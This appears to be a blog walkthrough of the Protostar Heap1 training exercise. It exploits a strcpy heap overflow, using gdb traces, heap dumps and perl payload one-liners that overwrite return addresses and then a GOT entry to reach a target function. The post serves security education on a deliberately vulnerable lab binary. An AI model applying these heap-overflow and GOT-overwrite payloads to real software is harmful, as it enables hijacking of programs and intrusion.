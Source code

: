 ```yaml
---
layout: post
title:  "Protostar Heap1 challenge"
date:   2018-05-27 22:26:36 +0530
categories: exploit-exercises protostar heap1
---
```

[Heap1][heap1-proto-link] protostar exploit exercise introduces us to heap-overflow vulnerabilities and how they can be exploited. [Heap0][heap0-proto-link] was a relatively simple challenge so i have skipped writing about it. The source code for `heap1` is below
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
{% endhighlight %}

Ok. Now let us see the assembly for the vulnerable binary.
{% highlight nasm %}
user@protostar:/opt/protostar/bin$ gdb heap1
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x080484b9 <main+0>:	push   ebp
0x080484ba <main+1>:	mov    ebp,esp
0x080484bc <main+3>:	and    esp,0xfffffff0
0x080484bf <main+6>:	sub    esp,0x20
0x080484c2 <main+9>:	mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:	call   0x80483bc <malloc@plt>
0x080484ce <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:	mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:	mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:	mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:	call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:	mov    edx,eax
0x080484ea <main+49>:	mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:	mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:	mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:	call   0x80483bc <malloc@plt>
0x080484fd <main+68>:	mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:	mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:	mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:	mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:	call   0x80483bc <malloc@plt>
0x08048517 <main+94>:	mov    edx,eax
0x08048519 <main+96>:	mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:	mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:	add    eax,0x4
0x08048526 <main+109>:	mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:	mov    edx,eax
0x0804852a <main+113>:	mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:	mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:	mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:	mov    DWORD PTR [esp],eax
0x08048538 <main+127>:	call   0x804838c <strcpy@plt>
0x0804853d <main+132>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:	add    eax,0x8
0x08048543 <main+138>:	mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:	mov    edx,eax
0x08048547 <main+142>:	mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:	mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:	mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:	mov    DWORD PTR [esp],eax
0x08048555 <main+156>:	call   0x804838c <strcpy@plt>
0x0804855a <main+161>:	mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
0x08048566 <main+173>:	leave  
0x08048567 <main+174>:	ret    
End of assembler dump.
{% endhighlight %}
So now we would first like to how our heap memory is allocated. To do so let us put some breakpoints.
We place break-point before and after first and second malloc calls. First malloc call is for allocating first struct and second malloc call is for allocating string within this. Now we run program with a sample input to see check heap at various positions.
We know from the source code the this binary expects two arguments from command line.
{% highlight nasm %}
Breakpoint 1 at 0x80484c9: file heap1/heap1.c, line 23.
(gdb) b *0x080484ce
Breakpoint 2 at 0x80484ce: file heap1/heap1.c, line 23.
(gdb) b *0x080484e3
Breakpoint 3 at 0x80484e3: file heap1/heap1.c, line 25.
(gdb) b *0x080484e8
Breakpoint 4 at 0x80484e8: file heap1/heap1.c, line 25.
(gdb) r AAAA BBBB
Starting program: /opt/protostar/bin/heap1 AAAA BBBB
(gdb) info proc map
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
{% endhighlight %}
Very well. So our binary has no heap memory area before the first malloc call. Kindof expected. On `Continuing` to next breakpoint we see a heap area has been carved out now.
So we then try to see memory area around heap and how it has been created.
{% highlight nasm %}
(gdb) c
Continuing.
(gdb) info proc map
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
	 0x804a000  0x806b000    0x21000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
(gdb) x/40x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}
After first malloc call for struct has completed we see that `0x804a004` has value as `0x11`. This basically stores the size for malloc. On moving to position after next malloc the heap is
{% highlight nasm %}
(gdb) x/30x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00020fe1	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x0000000
{% endhighlight %}
So by now value `1` has been saved to priority at `0x804a008`.
`0x804a012` has value `0x0804a018` which tells where the newly malloced char * name will be stored.
The same happens for other two mallocs.
Now we move on to checking this vulnerability.
{% highlight nasm %}
(gdb) b *0x0804853d
Breakpoint 6 at 0x804853d: file heap1/heap1.c, line 32.
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGG
Breakpoint 6, main (argc=2, argv=0xbffff844) at heap1/heap1.c:32
32	heap1/heap1.c: No such file or directory.
	in heap1/heap1.c
(gdb) x/30x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x46464646
0x804a030:	0x47474747	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
{% endhighlight %}
Seems what we wrote to as `FFFF` ie `0x46464646` was the destination address for second `strcpy`.
Our goal is to execute `winner` function. So we could overwrite return address of `main` with address of winner. Or we could also overwrite return address of second strcpy with winner's.
We first get address of winner and return address of main and second strcpy..
{% highlight nasm %}
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
(gdb) x/x $ebp+0x4
0xbffff79c:	0xb7eadc76
(gdb) b *0x08048555
Breakpoint 7 at 0x8048555: file heap1/heap1.c, line 32.
(gdb) c
Continuing.
Breakpoint 7, 0x08048555 in main (argc=2, argv=0xbffff844) at heap1/heap1.c:32
32	in heap1/heap1.c
(gdb) s
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) x/x $ebp+0x4
0xbffff76c:	0x0804855a
{% endhighlight %}
Recalling return address is `0x4` away from `$ebp`. Also to get location where return address from second strcpy is stored, we break just before strcpy and step into us `s`. This would execute strcpy, creating a stack for it with return address.
Exploit will work as the first strcpy call will, after unchecked writing 20 dummy bytes to heap, overwrite destination address of second strcpy. And second strcpy will write this modified address ie `location of return address` with address of winner.
{% highlight nasm %}
(gdb) r `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
Starting program: /opt/protostar/bin/heap1 `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
and we have a winner @ 1527765672
Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) r `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
Starting program: /opt/protostar/bin/heap1 `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and we have a winner @ 1527765683
Program received signal SIGSEGV, Segmentation fault.
0xbffff70a in ?? ()
{% endhighlight %}
So we are able to execute winner from `gdb`. Notice how modifying strcpy return address does not output `and that's a wrap folks!` coz printf is not executed.
But when i tried running outside gdb, i was unsuccessful in both cases.
{% highlight nasm %}
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
{% endhighlight %}
This was probably due to stack changing when working outside gdb.
So i tried using Global Offset Table now for exploit. I had read about it while working on [format4][format4-proto-link] exercise.After 2nd `strcpy`, there is a call to `puts` for printing. `0x08048561 <main+168>:	call   0x80483cc <puts@plt>`. Here call is directed to a location in `plt` table which further points to `GOT` table.
{% highlight nasm %}
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
End of assembler dump.
(gdb) x/x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483d2
{% endhighlight %}
`0x8049774` is pointer to entry in `GOT` which has value `0x080483d2`. This value is what needs to be
overwritten with winner address. So with a change to our desination address for second strcpy we are able to execute winner.
{% highlight nasm %}
(gdb) r `perl -e 'print "A"x20 . "\x74\x97\x04\x08" . " " . "\x94\x84\x04\x08"'`
Breakpoint 1, 0x08048561 in main (argc=3, argv=0xbffff844) at heap1/heap1.c:34
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
(gdb) x/x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x08048494
(gdb) c
Continuing.
and we have a winner @ 1527769804
Program exited with code 042.
{% endhighlight %}
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x74\x97\x04\x08" . " " . "\x94\x84\x04\x08"'`
and we have a winner @ 1527769887
{% endhighlight %}
Since `GOT` address are stable both inside and out of gdb we are also able to get to winner w/o gdb.

[heap1-proto-link]:https://exploit.education/protostar/heap-one/
[heap0-proto-link]:https://exploit.education/protostar/heap-zero/
[format4-proto-link]:https://exploit.education/protostar/format-four/
